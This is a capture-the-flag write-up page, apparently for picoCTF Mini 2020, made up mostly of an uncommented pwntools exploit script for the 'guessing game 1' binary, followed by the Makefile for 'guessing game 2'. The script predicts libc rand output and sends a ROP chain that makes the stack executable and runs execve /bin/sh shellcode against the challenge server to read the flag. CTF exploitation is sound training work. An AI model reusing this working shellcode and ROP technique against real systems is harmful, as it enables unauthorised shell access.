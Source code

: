 ```python
from pwn import *
from ctypes import *
import re
import time
libc = CDLL("libc.so.6")
# http://shell-storm.org/shellcode/files/shellcode-603.php
shellcode = b"\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"

context.terminal = ['termite', '-e']

def get_next():
	return (libc.rand() % 100) + 1

elf = ELF("./vuln")
rop = ROP(elf)

mov_rdx_rax = 0x0000000000419127 # pwntools couldn't find this idk why
pop_rdx = (rop.find_gadget(['pop rdx', 'ret']))[0]
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
pop_rax = (rop.find_gadget(['pop rax', 'ret']))[0]
push_rsp = 0x0000000000451974 # pwntools couldn't find this idk why

p = remote("jupiter.challenges.picoctf.org", 28951)
p.sendline(str(get_next())) # first randomly generated number + 1


payload = B"A" * 120
payload += p64(pop_rdx) + p64(elf.symbols['__stack_prot'])
payload += p64(pop_rax) + p64(7)
payload += p64(mov_rdx_rax)
payload += p64(pop_rdi) + p64(elf.symbols['__libc_stack_end'])
payload += p64(elf.symbols['_dl_make_stack_executable'])
payload += p64(push_rsp) + shellcode

p.sendline(payload)
time.sleep(.5)
p.recvuntil("Name?")
p.recvline()
p.sendline("cat flag.txt;exit;")
print(re.search("(picoCTF{.*?})",p.recvall().decode()).group(1))
```


# guessing game 2

[vuln](/ctf/picoctf-mini-2020/guessing_game_2/vuln)

```makefile
all:
	gcc -m32 -no-pie -Wl,-z,relro,-z,now -o vuln vuln.c
debug:
	gcc -m32 -no-pie -Wl,-z,relro,-z,now -g -o vuln_debug vuln.c
clean:
	rm vuln
```
